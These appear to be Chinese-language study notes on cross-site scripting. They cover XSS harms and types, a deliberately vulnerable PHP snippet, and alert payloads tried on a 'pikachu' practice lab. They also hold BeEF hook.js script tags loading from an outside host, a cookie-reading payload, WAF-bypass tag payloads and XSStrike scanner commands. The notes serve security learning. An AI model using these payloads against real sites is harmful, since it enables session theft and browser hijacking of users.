 # 1.XSS 简介与危害
跨站脚本攻击 XSS(Cross Site Scripting)，为了不和层叠样式表(Cascading Style
Sheets，CSS)的缩写混淆 故将跨站脚本攻击缩写为 XSS
恶意攻击者往 Web 页面里插入恶意 Script 代码，当用户浏览该页面时，嵌入 Web 里面的Script 代码会被执行，从而达到恶意攻击用户的目的。
危害
1、盗取各类用户账号，如机器登录帐号、用户网银帐号、各类管理员帐号
2、控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力
3、盗窃企业重要的具有商业价值的资料
4、非法转账
5、强制发送电子邮件
6、网站挂马
7、控制受害者机器向其它网站发起攻击（重定向语句）
8、窃取 cookie 的 sessionid，冒充登录。

# 2.反射型与存储型 XSS
xss 攻击可分为三类：反射型、存储型、dom 型，很容易混淆的是反射和 dom 类型

反射型
案例 1
编写代码
`<?php`
`$xss = $_GET['x'];`
`echo $xss;`
`?>`
使用浏览量访问
http://localhost/1.php?x=1
http://localhost/1.php?x=<script>alert(1)</script>

案例 2
"pikachu" && country="CN" && title="Get the pikachu"
<script>alert(1)</script>


存储型
案例
http://111.230.104.121:8765/vul/xss/xss_stored.php
<script>alert(1)</script>
总结:攻击数据存储在服务器，攻击一直持续下去，危害比反射大

dom 型
案例
http://111.230.104.121:8765/vul/xss/xss_dom.php
#' onclick="alert(1)"
javascript:alert(123)
总结：DOM 型与服务器没有太大的关系，不需要和服务器交互，攻击纯粹发生在客户端。


过滤：
<ScrIPT>alert(1)</SCrIPT>

beef:
<script src="http://192.168.163.133:3000/hook.js"/>
<script src="http://192.168.163.133:3000/hook.js"></script>
<script>alert(document.cookie)</script>


XSS 修复
开启 AWF
（安全狗）环境准备
cd C:\Users\86188\Desktop\tool\phpStudy\PHPTutorial\Apache\bin
httpd.exe -k install -n apache2.0
#如果要删除
sc delete apache2.0




手工绕过
标签语法替换
就是使用其他标签来替换，不同 WAF 过滤的手段并不一样，需要自己尝试
audio 标签
<audio src=x onerror=alert(47)>
<audio src=x onerror=prompt(1);>
<audio src=1 href=1 onerror=javascript:alert(1)></audio>

video 标签
<video src=x onerror=prompt(1);>
<video src=x onerror=alert(48)>

button 标签
<button onfocus=alert(1) autofocus>
<button/onclick=alert(1) >xss</button>


加密算法
<details open ontoggle=eval(String.fromCharCode(97,108,101,114,116,40,49,41)) >


XSStrike
可识别并绕过 WAF 的 XSS 扫描工具 
https://github.com/s0md3v/XSStrike

参数
-h, --help //显示帮助信息
-u, --url //指定目标 URL
--data //POST 方式提交内容
-v, --verbose //详细输出
-f, --file //加载自定义 paload 字典
-t, --threads //定义线程数
-l, --level //爬行深度
-t, --encode //定义 payload 编码方式
--json //将 POST 数据视为 JSON
--path //测试 URL 路径组件
--seeds //从文件中测试、抓取 URL
--fuzzer //测试过滤器和 Web 应用程序防火墙。
--update //更新
--timeout //设置超时时间
--params //指定参数
--crawl //爬行
--proxy //使用代理
--blind //盲测试
--skip //跳过确认提示
--skip-dom //跳过 DOM 扫描
--headers //提供 HTTP 标头
-d, --delay //设置延迟


==1.php 必须是一个正确的 html 页面==
直接探测
python xsstrike.py -u  "http://localhost/xxs/1.php?x=1"

fuzz 测试
pip install -r requirements.txt
python xsstrike.py -u  "http://localhost/xxs/1.php?x=1"  --fuzzer


fuzz
http://localhost/xss/1.php?x=1
BurpSuite payload加载
https://github.com/tennc/fuzzdb/